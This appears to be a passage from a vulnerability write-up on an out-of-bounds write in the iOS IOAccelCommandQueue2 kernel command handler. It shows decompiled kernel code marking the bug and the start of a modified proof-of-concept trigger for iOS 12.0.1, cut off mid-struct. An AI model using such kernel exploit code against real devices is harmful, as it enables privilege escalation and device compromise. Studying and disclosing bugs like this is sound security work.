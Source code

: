 ```cpp
      (os_log_t)&_os_log_default,
      OS_LOG_TYPE_FAULT,
      "%s:kIOAccelKernelCommandCollectTimeStamp: Insufficient bytes (%llu) for sIOAccelKernelCommandCollectTimeStampArgs (%lu)\n",
      "virtual void IOAccelCommandQueue2::processSegmentKernelCommand(IOAccelSegmentResourceList *, const sIOAccelKernelC"
      "ommand *, const sIOAccelKernelCommand *)",
      (char *)kernelCommandEnd - (char *)kernelCommand,
      8);
    goto LABEL_11;
  }
  ***(_QWORD *)&kernelCommand->field_8 = j__mach_absolute_time_75();  // OOB Write
}**
```

# How to trigger

First, the PoC below needs to be run on an iPhone 8 running iOS 12.0.1 — I applied a couple of minor changes.

In the originally published PoC, the service must be changed from `AGXAccelerator` to `IOGraphicsAccelerator2`, and `IOAccelCommandQueue2_type` must be set to 5 (instead of 4) on iOS 12 for it to work.

```cpp
#include <CoreFoundation/CoreFoundation.h>
#include <mach/mach.h>
#include <pthread.h>

typedef mach_port_t io_object_t;
typedef io_object_t io_connect_t;
typedef io_object_t io_service_t;
typedef char io_name_t[128];

#define IO_OBJECT_NULL	(MACH_PORT_NULL)
extern const mach_port_t kIOMasterPortDefault;
kern_return_t IOObjectGetClass(io_object_t object, io_name_t className);
kern_return_t IOObjectRelease(io_object_t object);
io_service_t IOServiceGetMatchingService(mach_port_t masterPort, CFDictionaryRef matching CF_RELEASES_ARGUMENT);
kern_return_t IOServiceOpen(io_service_t service, task_port_t owningTask, uint32_t type, io_connect_t *connect);
kern_return_t IOServiceClose(io_connect_t connect);
CFMutableDictionaryRef IOServiceMatching(const char *name ) CF_RETURNS_RETAINED;
kern_return_t IOConnectAddClient(io_connect_t connect, io_connect_t client);
kern_return_t IOConnectCallMethod(mach_port_t connection, uint32_t selector, const uint64_t *input, uint32_t inputCnt, const void *inputStruct, size_t inputStructCnt, uint64_t *output, uint32_t *outputCnt, void *outputStruct, size_t *outputStructCnt) AVAILABLE_MAC_OS_X_VERSION_10_5_AND_LATER;
kern_return_t IOConnectCallAsyncMethod(mach_port_t connection, uint32_t selector, mach_port_t wake_port, uint64_t *reference, uint32_t referenceCnt, const uint64_t *input, uint32_t inputCnt, const void *inputStruct, size_t inputStructCnt, uint64_t *output, uint32_t *outputCnt, void *outputStruct, size_t *outputStructCnt) AVAILABLE_MAC_OS_X_VERSION_10_5_AND_LATER;

const int IOAccelCommandQueue2_type = 5;
const int IOAccelSharedUserClient2_type = 2;
const int IOAccelSharedUserClient2_create_shmem_selector = 5;
const int IOAccelCommandQueue2_set_notification_port_selector = 0;
const int IOAccelCommandQueue2_submit_command_buffers_selector = 1;

struct IOAccelDeviceShmemData {
    void *data;
    uint32_t length;
    uint32_t shmem_id;
```